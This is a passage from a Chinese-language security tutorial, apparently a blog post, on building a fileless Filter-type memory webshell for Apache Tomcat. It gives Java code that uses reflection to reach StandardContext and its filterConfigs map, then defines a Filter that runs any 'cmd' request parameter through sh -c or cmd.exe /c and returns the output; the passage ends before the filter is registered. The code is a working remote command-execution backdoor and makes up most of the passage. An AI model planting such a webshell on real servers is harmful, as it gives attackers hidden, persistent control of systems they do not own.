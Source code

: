 ```java  
    @Override    
    public void destroy() {    
    
    }    
}  
```  
先跑一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409191824391.png)
本质上其实就是Filter中接受执行参数，但是如果我们在现实情况中需要动态的将该Filter给添加进去。  
由前面Filter实例存储分析得知`StandardContext` Filter实例存放在filterConfigs、filterDefs、filterConfigs这三个变量里面，将filter添加到这三个变量中即可将内存马打入。那么如何获取到`StandardContext`成为了问题的关键。  
### Filter型内存马  
尝试分步骤自己手写一下EXP，构造思路如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409191932864.png)
反射获取到standContext  
```java  
ServletContext servletContext = request.getSession().getServletContext();    
try {    
    Field appctx = servletContext.getClass().getDeclaredField(&#34;context&#34;);    
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);    
    Field stdctx = applicationContext.getClass().getDeclaredField(&#34;context&#34;);    
    stdctx.setAccessible(true);    
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);    
    
    String Filtername = &#34;cmdFilter&#34;;    
    Field Configs = standardContext.getClass().getDeclaredField(&#34;filterConfigs&#34;);    
    Configs.setAccessible(true);    
    Map filterConfigs = (Map) Configs.get(standardContext);    
} catch (Exception e) {    
    throw new RuntimeException(e);    
}  
```  
接着，定义一个Filter  
```java  
Filter filter = new Filter(){    
    @Override    
    public void init(FilterConfig filterConfig) throws ServletException {    
        System.out.println(&#34;Filter 初始构造完成&#34;);    
    }    
    
    @Override    
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {    
        HttpServletRequest request = (HttpServletRequest) servletRequest;    
        HttpServletResponse response = (HttpServletResponse) servletResponse;    
        if(request.getParameter(&#34;cmd&#34;) != null){    
            boolean isLinux = true;    
            String osTyp = System.getProperty(&#34;os.name&#34;);    
            if(osTyp !=null &amp;&amp; osTyp.toLowerCase().contains(&#34;win&#34;)){    
                isLinux = false;    
            }    
            String[] cmds = isLinux ? new String[]{&#34;sh&#34;,&#34;-c&#34;,request.getParameter(&#34;cmd&#34;)} : new String[]{&#34;cmd.exe&#34;,&#34;/c&#34;,request.getParameter(&#34;cmd&#34;)};    
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();    
            Scanner s = new Scanner(in).useDelimiter(&#34;\\A&#34;);    
            String output = s.hasNext() ? s.next() : &#34;&#34;;    
            response.getWriter().write(output);    
            response.getWriter().flush();    
        }    
        filterChain.doFilter(servletRequest,servletResponse);    
    }    
```